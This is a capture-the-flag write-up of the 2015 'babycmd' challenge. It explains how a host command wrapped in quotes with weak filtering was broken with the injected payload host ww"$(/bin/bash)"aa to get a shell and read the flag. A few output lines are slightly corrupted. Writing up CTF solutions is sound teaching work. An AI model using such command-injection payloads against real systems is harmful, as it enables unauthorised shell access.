 ##Baby's first: babycmd

##TL;DR
If you aren't interested in the long answer to the question of "How does one solve this problem?", 
the short answer is that improper sanitization of the argument to the host commad allowed the 
inclusion of unnecessary characters and the usage of ```host \"%s\"``` allowed us to escape the 
first quote and achieve command execution. The specific payload we used was something to the effect 
of ```host ww"$(/bin/bash)"aa```, which executed ```/bin/bash``` and gave a shell. The final step 
was simply directing standard output to standard error.

##Overview
For those who wish to learn more about what was described above, this is a more indepth 
write up aimed at displaying the method used to identify the problem and then go about 
exploiting it. The main individuals that contributed to this solution were RyanAiden, 
Captain RedBeard, 1cyFl4m3 and the most progress came from darkstructures. 
Let us begin, we are given the hostname and port ```babycmd3ad...00b.quals.shallweplayaga.me:15491``` 
as well as a program binary.  

##Methology
First things first, we need to download the given binary program and determine what 
it is. 

```
$ file babycmd 
babycmd: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

Now we know we are dealing with a 64-bit executable. To run the program we must first give it executable rights. 
To do so, we execute ```chmod +x babycmd*```. Now we can run the program.

Running the program from terminal let's us see the program accepts arguments to the commands ping, dig and host.
```
$ ./babycmd 

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: ping 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0 0x7fdcbc26e100acket loss, time 1998ms
rtt min/avg/max/mdev = 0.031/0.038/0.047/0.006 ms
Commands: ping, dig, host, exit
: dig hosts

; <<>> DiG 9.9.5-3ubuntu0.2-Ubuntu <<>> hosts
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 47090
;; flags: qr aa ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;hosts.				IN	A

;; Query time: 12 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Thu May 21 11:01:42 CDT 2015
;; MSG SIZE  rcvd: 23

Commands: ping, dig, host, exit
: host host
Host host not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
: exit
Goodbye
```

The commands seem to be executed through their respective programs on the machine, so this leads us to think this 
could be a command injection challenge. The goal would be to execute our own commands instead of 
ping, dig, and host. Using a disassembler we can get a better idea of what is going on. The disassembled 
code shows the strings being used to execute the respective commands. The host command uses a different format 
than the other two commands. Host is executed via ```host \"%s\"``` rather than just ```host %s``` like the other commands. 
Excellent, the double quotes can be escaped which would enable us to be able to 
inject commands in the form of ``` host "command here" ``` . Trying this in our program tells us 
we entered an invalid hostname. Further digging in the disassembled code reveals some basic checking 
is done on the argument for the host option. To pass the checking, the hostname cannot contain certain characters. 
Using ``` host aa"(command)"aa ``` will pass verification and allow us to inject commands. 

Attempting basic commands such as ``` host aa"ls"aa ``` would not provide any results back and 
``` host aa"ls /"aa ``` would have the spaces stripped out of it. We needed a command with no 
spaces that would grants us access to the machine. After more time than necessary we tried 
``` host ww"$(/bin/bash)aa ``` which popped us into a bash shell locally so we thought we 
had it. Trying this on the remote host gave a slightly different result. Executing standard commands 
would not return any results but trying ``` cat flag ``` returned the error for file 
not found. One of us noticed it was only returning the results of stderr. Great. We can just 
pipe the results of all of our commands from stdout to stderr. After a quick google we found 
this was done by using ```1>&2```. We simply appended this to our previous attempts and we 
were at a standard shell. After digging, we found the flag in the home directory of the user 
babycmd. We read the flag with ``` cat /home/babycmd/flag 1>&2 ```.

The flag was ``` Pretty easy eh!!~ Now let's try something h4rd3r, shallwe?? ```

